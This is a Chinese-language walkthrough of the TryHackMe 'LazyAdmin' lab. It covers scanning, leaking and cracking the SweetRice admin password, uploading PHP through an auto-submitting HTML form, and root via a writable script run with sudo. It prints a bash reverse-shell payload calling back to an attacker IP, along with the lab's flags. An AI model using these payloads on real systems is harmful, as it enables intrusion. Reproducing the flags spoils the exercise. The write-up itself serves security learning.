





# LazyAdmin

首先拿到 ip `10.10.48.52`，並確認機器已上線

`ping 10.10.48.52`



接著使用 nmap 掃描有哪些服務，一樣使用快速及多資訊的方式來掃

`nmap -v 10.10.48.52`


`nmap -v -sV -p- -sC --min-rate 5000 10.10.48.52`


可以看到，一共找出了以下兩個服務

```
22      ssh     openssh 7.2
80      http    apache 2.4.18
```

在版本上應該是沒有太特別的漏洞

而既然看到網頁服務，那可以先用瀏覽器連線看看，但一連進去可以發現基本上只有 apache 的預設頁面，沒有特別的東西



而此外也可以使用 dirsearch 及 gobuster 掃描看看有沒有特別的路徑

`python dirsearch/dirsearch.py -u http://10.10.48.52`



`gobuster dir -u http://10.10.48.52/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`



可以看到，一共找出了以下兩個路徑，前者是前面看到的 apache default page，而後者等等可以來看看是什麼

```
/index.html
/content/
```

在 `/content/` 路徑下，可以發現到這個網站是使用 `SweetRice` 及 `Basic CMS` 搭建的


初步用 exploitdb 找有關 `Basic CMS` 的漏洞，但看不出個所以來，因此改專注於 `SweetRice` 的部分，以下是[他的 Github](https://github.com/sweetrice/SweetRice)

而從原始碼的檔案目錄中可以發現，在根目錄下有一個 `changelog.txt`，可以查看版本的相關資訊

因此查看 `/content/changelog.txt` 路徑，可以發現這是 `1.5.1` 版


因此有了版本資訊後，我們就可以針對此版本進行進一步的漏洞發現

在搜尋相關 exploit 的過程中，可以發現 `/content/as/` 路徑有管理員的登入介面


在 exploitdb 中，可以注意到[這個資訊洩漏漏洞](https://www.exploit-db.com/exploits/40718)，在 `inc/mysql_backup` 路徑下 (即這台機器的 `/content/inc/mysql_backup` 路徑) 可以找到資料庫的部分檔案

仔細查看後，可以發現裡面有管理員的帳號密碼，帳號為 `manager`，而密碼目前所看到的是 hash，需要進一步破解


使用 [crackstation](https://crackstation.net/)，可以破解出這個密碼是 md5 過的 `Password123`


因此，我們可以成功利用以上管理員帳號密碼，成功登入 CMS



而因此可以利用[另外一個漏洞](https://www.exploit-db.com/exploits/40700)，得到 RCE

首先先創建以下的 exploit，我主要修改了原始 exploit 第三行的 `form action` 的位置改成這台機器的路徑，另外也改了其中的 php 部分，修改成一個 reverse shell

```html
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.48.52/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.17.31.45/2023 0>&1'");
?>
&lt;/textarea&gt;
</form>
</body>
</html>
```

接著直接用瀏覽器的另一個分頁載入，並訪問以下路徑，執行 php (記得先開 reverse shell 的接收端)

`/content/inc/ads/hacked.php`


可以看到，我們拿到的身分是 `www-data`

首先查找 userflag，在 `/home` 目錄中可以發現有一個使用者 `itguy`


userflag 在該使用者家目錄的 `user.txt` 中 (`/home/itguy/user.txt`)


`THM{63e5bce9271952aad1113b6f1ac28a07}`

接著是提權部分，首先使用 `sudo -l` 查看我們能用那些 sudo


可以看到，我們能用 perl 跑 `/home/itguy/backup.pl` 的腳本，不過我們可以從前面的截圖看到該腳本我們是不可修改的，不過也可以來看一下該腳本是來幹嘛的


可以看到，他會執行 `/etc/copy.sh` 的檔案然後沒了，我們可以看一下該檔案能幹嘛


恩看不懂，看起來像是打一個 reverse shell?，或許能看一下能不能修改他?


可以看到，我們是具有修改該檔案的權限的

因此我們也可以偽造該檔案的內容，並使用 sudo 在 `backup.pl` 上跑 root 權限，而進一步我們就能利用 root 身分執行我們想要的內容

因此我在該檔案中寫入要一個 shell

`echo "/bin/bash" > /etc/copy.sh`

接著執行以下指令提權

`sudo /usr/bin/perl /home/itguy/backup.pl`


可以看到我們的身分變成 root 了

rootflag 在 `/root/root.txt` 中


`THM{6637f41d0177b6f37cb20d775124699f}`

至此，我們已取得這台機器的完整權限